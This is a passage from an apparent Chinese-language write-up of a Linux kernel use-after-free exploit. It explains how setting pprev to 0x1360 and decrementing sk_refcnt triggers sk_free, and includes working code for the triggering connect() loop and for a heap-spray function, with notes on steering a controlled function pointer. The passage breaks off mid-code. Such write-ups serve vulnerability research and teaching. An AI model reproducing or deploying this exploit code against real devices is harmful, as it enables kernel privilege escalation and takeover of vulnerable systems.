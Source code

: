 提前 mmap 了，防止程序像 poc 一样，由于在 0x1360 的地方赋值导致崩溃

```
	for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] create vultrig socket fail");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr2, sizeof(addr2));
		if(-1 == ret)
		{
			perror("[-] connect vultrig socket fail");
			exit(-1);
		}
	}

```

这里的过程和 poc 差不多，第一次 connect 将 pprev 也就是 + 0x38 的地方变成 0x1360, 同时 sk_refcnt(+0x44) 减一

![](https://img-blog.csdnimg.cn/55289018b5294d69977f92fbfa2eeb78.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

第二次由于我们提前 mmap 了，程序不会崩溃，之后 sk_refcnt 减一，变成 0，执行 sk_free(),  
![](https://img-blog.csdnimg.cn/f808b8c1da66485183d88fd97ff2f5c0.png#pic_center)

0xffffffc00035ea84 是 sk_free(), 由此 uaf 产生，之后就是利用了，首先利用堆喷

```
int spray_nofork(unsigned int size)
{

  void*       mapped;
  void*       mapped_page;
  int         ret, i;

  mapped = mmap(NULL, size , PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
  if(MAP_FAILED == mapped)
  {
    printf("[*] mmap fail.\n");
    exit(-1);
  }


  for(i=0; i<size/PAGE_SIZE; i++)
  {
      memset((void *)((char *)mapped + PAGE_SIZE * i), 0x41, PAGE_SIZE);  
      mapped_page = (void *)((char *)mapped + PAGE_SIZE * i);
      
      /*
        to avoid 32bit exploit crash in inet_compat_ioctl
        ROM:FFFFFFC0003FE2CC                 LDR             X3, [X0,#0x28]             ;X0 points to aligned-page controlled by attacker 
        ROM:FFFFFFC0003FE2D0                 LDR             X3, [X3,#0x60]             
        ROM:FFFFFFC0003FE2D4                 CBZ             X3, loc_FFFFFFC0003FE2E4   ;if X3!=0 it will be used as function pointer
        ROM:FFFFFFC0003FE2D8                 BLR             X3
      */
      //*(unsigned long *)((char *)mapped_page + 0x28)  = mapped_page;
      //*(unsigned long *)((char *)mapped_page + 0x60)  = 0;
      /*
```